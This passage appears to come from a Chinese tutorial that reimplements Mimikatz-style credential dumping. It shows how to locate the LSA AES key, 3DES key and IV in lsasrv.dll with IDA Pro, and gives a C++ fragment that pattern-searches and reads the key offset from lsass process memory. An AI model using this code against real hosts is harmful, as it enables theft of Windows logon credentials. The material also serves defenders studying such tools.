 此函数的实现分3步：
- 定位并读取`hAesKey`，赋值`g_sekurlsa_AESKey`
- 定位并读取`h3DesKey`，赋值`g_sekurlsa_3DESKey`
- 定位并读取`InitializationVector`，赋值`g_sekurlsa_IV`

### 2.1 获取`hAesKey`
首先使用静态分析软件 IDA Pro 对系统 DLL 文件进行二进制分析。
从复制的`lsasrv.dll`文件中可以找到`hAesKey`：

![alt text](images/locations1.png)

查看对其进行操作的指令：

![alt text](images/xrefs1.png)

定位第一条 lea 指令：

![alt text](images/hAesKey.png)

取 lea 指令和前几条指令的字节序列用于搜索 lea 指令相对`lsasrv.dll`模块基址的偏移：

``` cpp
UCHAR keyAESSig[] = { 0x83, 0x64, 0x24, 0x30, 0x00,
				0x48, 0x8d, 0x45, 0xe0,
				0x44, 0x8b, 0x4d, 0xd8,
				0x48, 0x8d, 0x15 };

// 在lsass进程的内存中搜索定位全局变量hAesKey的内存位置
// 获取首条指令 and [rsp+70h+var_40], 0 相对lsasrv.dll模块基址的偏移
keySigOffset = SearchPattern(lsasrvBaseAddress, keyAESSig, sizeof keyAESSig);
wprintf(L"keySigOffset = 0x%x\n", keySigOffset);	// 0x752AB (00000001800752AB & 0xFFFFF)
if (keySigOffset == 0) return;

// 从lsass进程的内存位置lsasrvBaseAddress + keySigOffset + sizeof keyAESSig 上读取4字节的偏移
ReadFromLsass(lsasrvBaseAddress + keySigOffset + sizeof keyAESSig, &aesOffset, sizeof aesOffset);
wprintf(L"aesOffset = 0x%x\n", aesOffset);
```

